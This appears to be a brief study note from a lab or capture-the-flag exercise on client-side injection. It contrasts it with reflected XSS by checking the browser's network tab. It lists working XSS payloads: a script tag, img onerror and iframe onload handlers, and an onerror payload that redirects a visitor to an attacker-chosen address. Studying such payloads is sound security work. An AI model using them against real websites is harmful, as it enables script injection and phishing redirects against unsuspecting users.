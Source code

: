 
clinet side injection

user i/p is reflected so maybe it is reflected XSS??

check network tab in dev tools when entering a new item, we dont get a response back which means it is all happening on client side
In reflected XSS we get a response from server after entering an input which can be seen in the network tab

```js
<script>prompt(1)</script>
```
this becomes part of the page but we need something to trigger it

try other payload

```html
<img src onerror="prompt(1)"/>
```

OR
```html
<iframe src onload="alert`1`"/>
```

to forward the user to different location

```html
<img src onerror="window.location.href='targetAddress'">
```
targetURL also inside quotes

 
